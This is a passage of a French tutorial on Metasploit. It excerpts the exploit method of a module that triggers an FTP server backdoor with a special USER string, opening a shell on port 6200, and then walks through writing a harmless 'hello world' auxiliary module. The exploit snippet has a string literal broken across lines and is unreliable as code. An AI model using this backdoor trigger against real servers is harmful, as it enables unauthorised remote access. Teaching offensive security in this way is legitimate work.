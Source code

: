 Ici sont définis les **métadonnées du module** (nom, description, auteur, compatibilité, etc.)

```ruby
def exploit
  connect
  sock.put("USER test:)
\n")
  sock.put("PASS whatever\r\n")
  handler
  disconnect
end
```

C’est ici que la magie opère : la backdoor s’active avec un `USER` spécial, et ouvre un shell sur le port 6200. Le module s’y connecte automatiquement.

---

## 4. Créer son propre module Metasploit (niveau débutant)

Nous allons créer un petit **module personnalisé** qui simule une attaque triviale : afficher un message.

### 1️⃣ Créez le fichier

```bash
sudo mkdir -p ~/.msf4/modules/auxiliary/example
sudo nano ~/.msf4/modules/auxiliary/example/hello_world.rb
```

### 2️⃣ Collez ce contenu minimal :

```ruby
require 'msf/core'

class MetasploitModule < Msf::Auxiliary

  def initialize
    super(
      'Name'        => 'Hello World Module',
      'Description' => 'Affiche un message personnalisé',
      'Author'      => ['Vous'],
      'License'     => MSF_LICENSE
    )
  end

  def run
    print_status("Hello from your first Metasploit module!")
  end
end
```

### 3️⃣ Rechargez les modules dans Metasploit
